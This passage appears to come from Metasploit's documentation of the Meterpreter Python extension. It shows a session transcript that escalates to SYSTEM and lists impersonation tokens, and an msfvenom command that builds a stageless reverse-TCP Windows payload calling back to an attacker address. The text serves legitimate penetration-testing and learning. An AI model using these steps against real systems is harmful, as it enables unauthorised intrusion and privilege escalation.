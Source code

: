 ### Bindings example

```
meterpreter > getuid
Server username: WIN-TV01I7GG7JK\oj
meterpreter > python_execute "import meterpreter.user; print meterpreter.user.getuid()"
[+] Content written to stdout:
WIN-TV01I7GG7JK\oj

meterpreter > python_execute "import meterpreter.elevate; meterpreter.elevate.getsystem()"
[+] Command executed without returning a result
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > python_execute "meterpreter.elevate.rev2self(); print meterpreter.user.getuid()"
[+] Content written to stdout:
WIN-TV01I7GG7JK\oj

meterpreter > use incognito
Loading extension incognito...success.
meterpreter > python_execute "import meterpreter.incognito; print meterpreter.incognito.list_user_tokens()"
[+] Content written to stdout:
{'Delegation': ['NT AUTHORITY\\LOCAL SERVICE', 'NT AUTHORITY\\NETWORK SERVICE', 'NT AUTHORITY\\SYSTEM', 'WIN-TV01I7GG7JK\\oj'], 'Impersonation': ['NT AUTHORITY\\ANONYMOUS LOGON']}

meterpreter > python_execute "import meterpreter.fs; print meterpreter.fs.show_mount()"
[+] Content written to stdout:
[{'Name': 'A:\\', 'SpaceUser': None, 'SpaceTotal': None, 'UNC': None, 'SpaceFree': None, 'Type': 2}, {'Name': 'C:\\', 'SpaceUser': 28950585344L, 'SpaceTotal': 64422408192L, 'UNC': None, 'SpaceFree': 28950585344L, 'Type': 3}, {'Name': 'D:\\', 'SpaceUser': None, 'SpaceTotal': None, 'UNC': None, 'SpaceFree': None, 'Type': 5}]
```
Each of the examples above just show the results printed to stdout, however the values are returned as Python dictionaries and can be operated on just like normal variables.

## Stageless Initialisation

Not only can the extension be baked into a stageless Meterpreter, like any other extension, it also has the ability to run an arbitrary script before the Meterpreter session is even established! Consider the following script:
```
$  cat /tmp/met.py
import meterpreter.transport
meterpreter.transport.add("tcp://127.0.0.1:8000")
```
This is a simple script that uses the Meterpreter bindings to add a new transport to the list of transports. This is executed immediately before Meterpreter attempts to create a connection back to Metasploit for the first time. The intent is to show that it's possible to add any number of transports on startup.

To create a stageless payload that uses this script, we can make use of the `EXTINIT` parameter in `msfvenom`:
```
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4445 EXTENSIONS=stdapi,priv,python EXTINIT=python,/tmp/met.py -f exe -o /tmp/met-stageless.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 6412437 bytes
Saved as: /tmp/met-stageless.exe
```
When this payload is executed, the transport is added and shown to be present in the transport list immediately:
```msf
```

  [transport]: https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-transport-control.html
  [inveigh]: https://github.com/Kevin-Robertson/Inveigh